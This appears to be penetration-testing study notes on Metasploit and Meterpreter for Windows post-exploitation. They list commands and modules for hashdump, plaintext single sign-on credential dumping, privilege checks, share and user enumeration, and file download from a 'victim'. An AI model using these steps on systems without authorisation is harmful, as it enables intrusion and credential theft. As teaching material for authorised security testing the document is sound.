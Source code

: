 ## Hacking Windows and exploiting `SMB` and `NetBIOS` vulnerabilities
### Key Commands

### Metasploit

#### Searching Metasploit Modules

Metasploit has an overwhelming amount of modules. Being able to search them quickly and efficiently will help you save time.

```bash
# Search for Windows Modules
msf > search Windows
```

```bash
# Search for modules to gather information from a Windows machine
msf > search post/windows/gather
```

Use Metasploit's custom version of `grep` to narrow things down

```bash
# Search for `smb` within the results of post/windows/gather
msf > grep 'smb' search post/windows/gather
```


#### Using a Module

Once you have a module you want to try, you need to load it into Metasploit with the `use` command.

```bash
# Load the hashdump module
msf > use post/windows/gather/hashdump
```

After you load a module, you'll want to take a look at it's options.

```bash
# View the options of the currently loaded module
msf post(windows/gather/hashdump) > options
```

If you would like to unload your current module, use `back`

```bash
msf post(windows/gather/hashdump) > back
```

<details>
  <summary>Expand for more general Metasploit commands</summary>
  <ul>
    <li><code>set</code>Set an option
    <li><code>run</code>Run a module
    <li><code>run -j</code>Run a module in the background
    <li><code>db_nmap</code>run an Nmap scan and save it in the metasploit database
    <li><code>hosts</code>View hosts recorded in the database
    <li><code>services</code>View services recorded in the database
    <li><code>creds</code>View credentials recorded in the database
    <li><code>sessions</code>View meterpreter sessions recorded in the database
  </ul>
</details>


### Meterpreter

Once you have a Meterpreter session going, there are a number of commands available for you to gather more info from the victim.

```bash
# Attach to meterpreter session 1
msf > sessions -i 1
```
```bash
# Get the user ID and username of the current user
meterpreter > getuid
```
```bash
# Get the networking information
meterpreter > ifconfig
```

<details>
  <summary>Expand for more Meterpreter commands</summary>
  <ul>
    <li><code>?</code> View a list of Meterpreter commands
    <li><code>getprivs</code> escalate your privileges on the victim system
    <li><code>background</code> exit the meterpreter shell and return to msf (the meterpreter session stays open in the background)
    <li><code>download</code> download a file from the victim
    <li><code>upload</code> Upload a file to the victim
    <li><code>ls</code> list the files in a directory
    <li><code>cd</code> change directory
  </ul>
</details>

### Useful Metasploit Modules
The following modules are used _after_ you first obtain a Meterpreter session on a target machine. They are quite useful during the pillaging stage.

- `post/windows/gather/enum_services`: Enumerate service information. This is important for adequately profiling the target machine, as well as identifying opportunities for exploiting unquoted service paths for **privilege escalation**.

- `post/windows/gather/enum_shares`: Enumerate file shares.

- `post/windows/gather/win_privs`: Prints information about the privileges you have on your target machine. This includes whether you are currently logged in as a user, administrator, or as SYSTEM; whether UAC (User Access Control) is enabled; and information about any special permissions enabled for your current user.

- `post/windows/gather/credentials/sso`: Dump single sign-on credentials, in plaintext. This module requires you to have administrator privileges on your victim machine. If you have that, this module will dump usernames and passwords that you can use to sign into and/or authorize a wide variety of Windows services.

<details>
  <summary>Expand for other useful modules</summary>
  <ul>
    <li><code>post/windows/gather/hashdump</code> Dumps any username and NTLM hashes from system memory and saves them in the Metasploit database.
    <li><code>post/windows/gather/enum_domains</code> Finds active directory domains
    <li><code>post/windows/gather/enum_shares</code> Finds SMB file shares
    <li><code>post/windows/gather/enum_logged_on_users</code> Finds all users that are logged on to the machine.
    <li><code>post/windows/gather/enum_services</code> Finds all services running on the target machine.
    <li><code>post/windows/gather/forensics/browser_history</code> Finds browser history on the target machine.
  </ul>
</details>
